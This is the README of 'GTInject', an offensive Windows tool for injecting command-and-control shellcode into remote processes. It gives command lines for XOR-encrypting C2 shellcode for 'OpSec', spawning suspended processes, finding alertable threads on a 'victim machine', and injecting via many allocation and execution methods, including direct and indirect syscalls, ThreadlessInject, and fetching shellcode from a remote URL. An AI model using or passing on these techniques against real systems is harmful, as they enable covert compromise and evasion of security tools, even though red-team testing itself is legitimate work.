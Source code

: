 # GTInject
**Portable and Modular Remote Process Injection**

Remote process injection in C2 frameworks are often limited to one or two techniques built by the beacon developer. This tool is designed to offer mix and match memory allocation and thread execution techniques for process injection, with the goal of being portable accross C2 systems. 

It is largely inspired by the flexibility given within Brute Ratel, which made other C2 injection options feel extremely limited. I wanted to recreate that functionality for other C2s that I like using. 



## GTInject.exe Help Menu

## Usage: GTInject.exe \<module> \<moduleArgs>
       GTInject.exe threads
       GTInject.exe create process netsh.exe
       GTInject.exe encrypt pathToSource.bin MySecretXorKey
       GTInject.exe inject memoryOption execOption xorkey binSrcType binSourcePath PID TID

       GTInject.exe inject 100 100 SecretKey123 disk "C:\path\to\xordShellcode.file" 1234 321

## Encrypt  -- for encrypting shellcode:
**Do this in preparation, NOT on the C2 victim machine.**

       GTInject.exe encrypt pathToSource.bin MySecretXorKey

Shellcode from your C2 will be multibyte XOR'd and written in various formats.
This is intended to help you use the injection option later with better OpSec.

## Create  -- for creating suspended processes and threads

        GTInject.exe create <process||thread||sleepThread> <ProcessPath||PID>

Used to create new processes or threads in Suspended states, or things like Early Bird injection or QueueUserAPC injection or Process Hollowing

```create process ""C:\Windows\System32\netsh.exe""```
- This would launch netsh.exe in a suspended state, use the inject module later

```create thread 12345```
- This would create a new suspended thread in an existing Process ID

```create sleepThread 12345```
- This would create a new thread in a DelayExecution wait state (by calling kernel32!SleepEx in the newly created thread)

Threads work with APC injection, but NOT with Thread Hijacking (get/setThreadContext). APC was the goal, so I'm calling this 'working as designed'


## Threads  -- check for alertable threads:

       GTInject.exe threads


This will list alertable threads in all processes that you have access to. This is intended to help identify alertable threads, for injection options like QueueUserAPC.

By default, it filters out low and untrusted process integrities. 

Options include `GTinject.exe threads <all or alertable> <optional PID filter>` 

So you could show all threads in a process with `GTInject.exe threads all 4321`

Use QueueUserAPC injection with Suspended or DelayExecution threads


## Inject   -- choose a process injection method

       GTInject.exe inject memoryOption execOption xorkey binSrcType binSourcePath PID TID

       GTInject.exe inject 100 100 SecretKey123 disk "C:\path\to\xordShellcode.file" 1234 321

Choose a technique integer for allocating the memory.

Then choose a technique integer for executing the thread.

Enter the XorKey to decrypt it with, the same one you used to encrypt the shellcode using the **encrypt** module.

Specify a location type where the encrypted shellcode is stored. Acceptable values are
- embedded 0
- url https://example.globetech.biz/hostedShellcode.b64
- disk 'C:\path\to\xord-shellcode.bin'

Specify the PID you want to inject into.

OPTIONALLY specify the TID (not all options need a Thread ID).

## Call Categories
- 100 Series - WINAPI
- 200 Series - NTAPI 
- 300 Series - Syscalls
- 400 Series - Misc or Novel Techniques

## Memory Options
        100. WINAPI  -- VirtualAllocEx, WriteProcessMemory
        200. NTAPI   -- NtCreateSection, NtMapViewOfSection, RtlCopyMemory
        201. NTAPI   -- NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory
        300. SysCall -- Direct, NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory 
        301. SysCall -- Direct, NtCreateSection, NtMapViewOfSection, RtlCopyMemory
        302. SysCall -- Indirect, NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory
        303. SysCall -- Indirect, NtCreateSection, NtMapViewOfSection, RtlCopyMemory

## ThreadExec Options
        100. WINAPI  -- CreateRemoteThread
        101. WINAPI  -- QueueUserAPC, ResumeThread - Must Specify Thread ID
        102. WINAPI  -- GetThreadContext, SetThreadContext - Thread ID Optional
        200. NTAPI   -- NtCreateThreadEx
        201. NTAPI   -- RtlCreateUserThread
        202. NTAPI   -- NtQueueApcThread, NtResumeThread - Must Specify Thread ID
        203. NTAPI   -- NtGetContextThread, NtSetContextThread - Thread ID Optional
        300. SysCall -- Direct, NtCreateThreadEx
        301. SysCall -- Direct, NtQueueApcThread, NtResumeThread - Must Specify Thread ID
        302. SysCall -- Indirect, NtCreateThreadEx
        303. SysCall -- Indirect, NtQueueApcThread, NtResumeThread - Must Specify Thread ID
        304. Syscall -- Direct, NtGetContextThread, NtSetContextThread - Thread ID Optional
        305. Syscall -- Indirect, NtGetContextThread, NtSetContextThread - Thread ID Optional
        400. Novel   -- ThreadlessInject, CreateEventW - does not honor memory option
        401. Novel   -- ThreadlessInject, LoadLibraryExW - does not honor memory option


### To Do
- add Process Hollowing options now that the create module can give us a suspended process
- refactor the 'embedded disk url' options to auto determine based on https - UNC - or embedded keyword, one less argument for the command line
- As always, add more techniques (Thread Pool Party would be nice)